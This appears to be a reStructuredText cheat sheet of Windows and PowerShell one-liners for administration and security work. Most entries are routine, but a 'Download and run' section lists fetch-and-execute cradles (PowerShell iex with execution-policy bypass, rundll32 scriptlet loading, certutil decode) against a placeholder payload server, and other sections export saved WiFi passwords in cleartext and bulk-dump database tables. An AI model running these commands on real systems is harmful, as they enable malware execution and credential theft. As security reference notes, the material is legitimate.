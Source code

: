 One-liners commands
===================

Here are some useful short commands for Windows systems that may be useful.


Basic PowerShell commands
-------------------------

* ``sls`` (``Select-String``): look for a pattern:

  Example:

  .. code-block:: sh

      # Search my-needle in the input
      sls my-needle

      # Search my-needle in files ending with .txt
      sls -Path *.txt -Pattern my-needle

  Documentation:

  - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/select-string?view=powershell-6
  - https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_regular_expressions?view=powershell-6

* ``gcm`` (``Get-Command``): List cmdlets (PowerShell commands) matching a pattern

  Example:

  .. code-block:: sh

      # List commands using "WMI" in their names
      gcm -noun *WMI*


Download and run
----------------

Download and run a script

* PowerShell::

    powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

* JavaScript through Rundll32 (used by Win32/Poweliks malware)::

    rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();

* Using ``certutil``::

    certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe

Source: https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/amp/

Downloading files with PowerShell::

    $content = (New-Object Net.WebClient).DownloadString("http://webserver/file.txt")

    # Save to a file
    Invoke-WebRequest -Uri http://webserver/file.txt -OutFile file.txt -UseBasicParsing

    # With BITS (Background Intelligent Transfer Service) (ipmo = Import-Module)
    ipmo BitsTransfer;Start-BitsTransfer -Source "http://webserver/file.txt" -Destination C:\Windows\Temp\


Proxy settings
--------------

Get the HTTP proxy which is currently configured::

    reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer
    reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable
    netsh winhttp dump

Add a HTTP proxy::

    netsh winhttp set proxy 127.0.0.1:3128


WiFi profiles
-------------

List available WiFi profiles::

    netsh wlan show profiles

Export WiFi profiles (username and password) to ``%APPDATA%\<profile>.xml``::

    cmd.exe /c netsh wlan export profile key=clear folder="%APPDATA%"

Source: https://securelist.com/shedding-skin-turlas-fresh-faces/88069/

In PowerShell, without writing any file::

    $results = (netsh wlan show profiles) |
        Select-String '\:(.+)$' | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | \
        %{(netsh wlan show profile name=$name key=clear)} | \
        Select-String 'Key Content\W+\:(.+)$' | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | \
        %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }}

    # Display the results or record them in files
    $results
    $results | Format-Table -Wrap
    $results | Format-Table -AutoSize
    $results | Out-GridView
    $results | Export-Csv -Path .\wifi.csv -NoTypeInformation -Encoding ASCII
    $results | Out-File -FilePath .\wifi.txt -Encoding ASCII

Sources:

* https://jocha.se/blog/tech/display-all-saved-wifi-passwords
* https://www.tenforums.com/tutorials/27997-see-wireless-network-security-key-password-windows-10-a.html
* https://community.idera.com/database-tools/powershell/ask_the_experts/f/learn_powershell_from_don_jones-24/19610/convert-one-liner-to-more-readable-code


User and group management
-------------------------

Some commands to list and manage users and groups

.. code-block:: sh

    # Get information on the current user
    whoami
    whoami /groups
    whoami /priv
    whoami /all

    # Local users and groups manager
    lusrmgr.msc

    # net command on local accounts
    net user
    net localgroup

    # net command on Active Directory accounts
    net user /domain
    net group

    # query command
    query user

    # PowerShell, with MS Exchange cmdlet
    # Add-PSSnapin Microsoft.Exchange.Management.PowerShell.E2010
    Get-User | Export-CSV C:\Temp\AllUsers.csv -NoTypeInfo

    # WMI (PowerShell)
    Get-WmiObject Win32_UserAccount
    Get-CimInstance -ClassName Win32_UserAccount
    Get-CimInstance -ClassName Win32_Group


Enumerate live objects
----------------------

Enumerate all processes::

    tasklist /v
    query process *
    Get-Process

Enumerate all services::

    Get-Service | Export-CSV C:\Temp\AllServices.csv -NoTypeInfo


Local Group Policy
------------------

::

    gpedit.msc
    secpol.msc

    secedit /export /cfg system_config.cfg


Boot configuration
------------------

::

    msconfig


Installed software
------------------

::

    wmic product get name,version /format:csv > applications.csv


Firewall
--------

::

    wf.msc

    Get-NetFirewallProfile
    Show-NetFirewallRule


TCP port forwarding with netsh
------------------------------

::

    netsh interface portproxy add v4tov4 listenport=1234 listenaddress=192.0.2.42 connectport=80 connectaddress=10.13.37.1


Alternate Data Streams
----------------------

Get files with ``Zone.Identifier`` alternate data stream (ADS)::

    Get-ChildItem -Recurse | Get-Item -Stream Zone.Identifier -ErrorAction SilentlyContinue | Select-Object FileName

Read an ADS::

    Get-Content -Stream Zone.Identifier .\my-application.exe

Remove an ADS::

    Remove-Item .\my-application.exe -Stream Zone.Identifier

When downloading a file from the Internet, ``dir`` shows a filename with suffix ``:Zone.Identifier:$DATA`` and with 26 bytes (each lines are ended by ``"\r\n"``::

    [ZoneTransfer]
    ZoneId=3

The Zone identifier is 0 for the local machine, 1 for the local intranet, 2 for trusted sites, 3 for the Internet or 4 for restricted sites.

The ADS ``Zone.Identifier`` may contain other fields such as ``ReferrerUrl=...``.


CSV and table viewer
--------------------

Display a simple CSV file in a simple GUI, from a PowerShell prompt::

    Import-Csv -Path file.csv | Out-GridView

In order to produce a CSV from a PowerShell command::

    ... | Sort-Object -Property Timestamp | Export-Csv file.csv -notypeinformation

For a table in the CLI::

    ... | Format-Table
    ... | ft

In order to show a table as a list::

    ... | Format-List
    ... | fl


MSSQL client
------------

In order to connect to a MSSQL server from a PowerShell CLI (cf. https://docs.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlconnection?view=netframework-4.7.2):

.. code-block:: sh

    $ConnectionString = "Server=MSSQL-SRV\MY-INSTANCE;Database=mydb;User ID=sa;Password=sa;"
    $SqlConnection = New-Object System.Data.SqlClient.SqlConnection($ConnectionString)
    $SqlConnection.Open()
    $SqlConnection.State
    # Result: "Open"

To run a trivial SQL query:

.. code-block:: sh

    # The verbose way:
    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand
    $SqlCmd.CommandText = "SELECT 42"
    $SqlCmd.Connection = $SqlConnection
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter
    $SqlAdapter.SelectCommand = $SqlCmd
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $DataSet.Tables[0] | Format-Table

    # The more-compact way:
    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand("SELECT 42", $SqlConnection)
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $DataSet.Tables[0] | Format-Table

In order to find out which tables the logged user has access, here are some queries:

* ``SELECT * FROM sys.databases``
* ``SELECT * FROM sys.tables``

The following commands export the first rows of every table to files, once a ``$SqlConnection`` has been created:

.. code-block:: sh

    $SqlCmd = New-Object System.Data.SqlClient.SqlCommand("SELECT * FROM sys.tables", $SqlConnection)
    $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
    $DataSet = New-Object System.Data.DataSet
    $SqlAdapter.Fill($DataSet)
    $AllTables = $DataSet.Tables[0] | Sort-Object -property name

    $AllTables | ForEach-Object {
        $tblName = $_.name
        $csvName = "dump_top_" + $tblName + ".csv"
        echo "Exporting data to " $csvName
        $SqlCmd = New-Object System.Data.SqlClient.SqlCommand(("SELECT TOP 10000 * FROM " + $tblName), $SqlConnection)
        $SqlAdapter = New-Object System.Data.SqlClient.SqlDataAdapter($SqlCmd)
        $DataSet = New-Object System.Data.DataSet
        $SqlAdapter.Fill($DataSet)
        $DataSet.Tables[0] | Export-Csv $csvName -notypeinformation
    }
